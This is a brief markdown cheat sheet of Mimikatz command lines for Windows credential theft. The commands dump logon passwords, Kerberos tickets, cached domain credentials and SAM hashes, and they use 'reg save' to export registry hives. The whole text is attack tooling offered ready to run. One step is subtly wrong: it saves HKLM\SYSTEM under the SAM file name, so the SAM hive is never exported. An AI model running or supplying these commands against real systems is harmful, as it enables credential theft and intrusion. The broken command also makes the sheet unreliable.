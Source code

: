 # Mimikatz syntax

1. mimkatz 1 liner:
   - `Mimikatz.exe "log mimikatz.log" "sekurlsa::logonpasswords" "sekurlsa::tickets" "lsadump::cache" exit`
  
2. mimikatz SAM and SYSTEM files:
   - `Mimikatz.exe "log mimikatz.log" "lsadump::sam /system:<system file> /sam:<sam file>" exit`

3. Combined:
   - `.\mimikatz.exe "log mimikatz.log" "token::elevate" "sekurlsa::logonpasswords" "sekurlsa::tickets" "lsadump::cache" "lsadump::sam /system:systembakup.hiv /sam:sambakup.hiv" exit`
   - `reg save HKLM\SYSTEM sambakup.hiv`
   - `reg save HKLM\SYSTEM systembakup.hiv`
